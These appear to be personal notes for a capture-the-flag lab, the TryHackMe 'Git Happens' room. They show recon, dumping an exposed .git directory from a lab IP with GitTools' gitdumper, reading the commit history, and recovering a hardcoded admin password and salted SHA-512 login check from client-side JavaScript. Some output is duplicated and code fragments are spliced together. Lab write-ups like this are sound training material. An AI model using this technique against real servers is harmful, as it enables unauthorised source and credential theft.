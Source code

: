 <code>
nmap, gobuster

found .git folder and dashboard.html


┌──(duke㉿kali)-[~/Documents/THM_GitHappens]
└─$ git clone https://github.com/internetwache/GitTools.git/        
Cloning into 'GitTools'...
remote: Enumerating objects: 242, done.
remote: Counting objects: 100% (33/33), done.
remote: Compressing objects: 100% (23/23), done.
remote: Total 242 (delta 9), reused 27 (delta 7), pack-reused 209
Receiving objects: 100% (242/242), 56.46 KiB | 3.14 MiB/s, done.
Resolving deltas: 100% (88/88), done.
                                                                                                                    
┌──(duke㉿kali)-[~/Documents/THM_GitHappens]
└─$ ./GitTools/Dumper/gitdumper.sh http://10.10.231.42/.git/ clone

# GitDumper is part of https://github.com/internetwache/GitTools
#
# Developed and maintained by @gehaxelt from @internetwache
#
# Use at your own risk. Usage might be illegal in certain circumstances. 
# Only for educational purposes!


[*] Destination folder does not exist
[+] Creating clone/.git/
[+] Downloaded: HEAD

git clone https://github.com/internetwache/GitTools.git/        
Cloning into 'GitTools'...
remote: Enumerating objects: 242, done.
remote: Counting objects: 100% (33/33), done.
remote: Compressing objects: 100% (23/23), done.
remote: Total 242 (delta 9), reused 27 (delta 7), pack-reused 209
Receiving objects: 100% (242/242), 56.46 KiB | 3.14 MiB/s, done.
Resolving deltas: 100% (88/88), done.

                                                                                                                                                                                                                                        
┌──(duke㉿kali)-[~/Documents/THM_GitHappens/clone/.git]
└─$ git log                                                 
commit d0b3578a628889f38c0affb1b75457146a4678e5 (HEAD -> master, tag: v1.0)
Author: Adam Bertrand <hydragyrum@gmail.com>
Date:   Thu Jul 23 22:22:16 2020 +0000

    Update .gitlab-ci.yml

commit 77aab78e2624ec9400f9ed3f43a6f0c942eeb82d
Author: Hydragyrum <hydragyrum@gmail.com>
Date:   Fri Jul 24 00:21:25 2020 +0200

    add gitlab-ci config to build docker file.

commit 2eb93ac3534155069a8ef59cb25b9c1971d5d199
Author: Hydragyrum <hydragyrum@gmail.com>
Date:   Fri Jul 24 00:08:38 2020 +0200

    setup dockerfile and setup defaults.

commit d6df4000639981d032f628af2b4d03b8eff31213
Author: Hydragyrum <hydragyrum@gmail.com>
Date:   Thu Jul 23 23:42:30 2020 +0200

    Make sure the css is standard-ish!

commit d954a99b96ff11c37a558a5d93ce52d0f3702a7d
Author: Hydragyrum <hydragyrum@gmail.com>
Date:   Thu Jul 23 23:41:12 2020 +0200

    re-obfuscating the code to be really secure!

commit bc8054d9d95854d278359a432b6d97c27e24061d
Author: Hydragyrum <hydragyrum@gmail.com>
Date:   Thu Jul 23 23:37:32 2020 +0200

    Security says obfuscation isn't enough.
    
    They want me to use something called 'SHA-512'

commit e56eaa8e29b589976f33d76bc58a0c4dfb9315b1
Author: Hydragyrum <hydragyrum@gmail.com>
Date:   Thu Jul 23 23:25:52 2020 +0200

    Obfuscated the source code.
    
    Hopefully security will be happy!

commit 395e087334d613d5e423cdf8f7be27196a360459
Author: Hydragyrum <hydragyrum@gmail.com>
Date:   Thu Jul 23 23:17:43 2020 +0200

    Made the login page, boss!

commit 2f423697bf81fe5956684f66fb6fc6596a1903cc
Author: Adam Bertrand <hydragyrum@gmail.com>
Date:   Mon Jul 20 20:46:28 2020 +0000

    Initial commit
                                                                                                                    
┌──(duke㉿kali)-[~/Documents/THM_GitHappens/clone/.git]
└─$ git show 395e087334d613d5e423cdf8f7be27196a360459
commit 395e087334d613d5e423cdf8f7be27196a360459
Author: Hydragyrum <hydragyrum@gmail.com>
Date:   Thu Jul 23 23:17:43 2020 +0200

    Made the login page, boss!

diff --git a/css/style.css b/css/style.css
new file mode 100644
index 0000000..48926fd
--- /dev/null
+++ b/css/style.css
@@ -0,0 +1,197 @@
+* {
+  -webkit-font-smoothing: antialiased;
+  text-rendering: optimizeLegibility;
+}
+
+html,
+body {
+  height: 100%;
+}
+
+body {
+  display: -webkit-box;
+  display: flex;
+  -webkit-box-align: center;
+  align-items: center;
+  -webkit-box-pack: center;
+  justify-content: center;

+    <script>
+      function login() {
+        let form = document.getElementById("login-form");
+        console.log(form.elements);
+        let username = form.elements["username"].value;
+        let password = form.elements["password"].value;
+        if (
+          username === "admin" &&
+          password === "Th1s_1s_4_L0ng_4nd_S3cur3_P4ssw0rd!"
+        ) {
+          document.cookie = "login=1";
+          window.location.href = "/dashboard.html";


<h2> use DeObfuscator for javascript </h2>
  
async function login() {
  let formElement = document.getElementById('login-form');
  console.log(formElement.elements);

  let username = formElement.elements['username'].value;
  let password = await digest(formElement.elements['password'].value);

  if (username === 'admin' && password === 'f64cb3d84319a5106e6a7c7ca5f298a865c5bea0703a71fd51a1513ec9cb') {
    document.cookie = 'login=1';
    window.location.href = '/dashboard';
  } else {
    document.getElementById('login-status').innerHTML = 'Invalid username or password';
  }
}

async function digest(data) {
  const encoder = new TextEncoder();
  const message = encoder.encode(data + 'SaltySecret');
  const hashBuffer = await crypto.subtle.digest('SHA-512', message);
  const hashArray = Array.from(new Uint8Array(hashBuffer));
  const hashString = hashArray.map(byte => byte.toString(16).padStart(2, '0')).join('');
  return hashString;
}

</code>
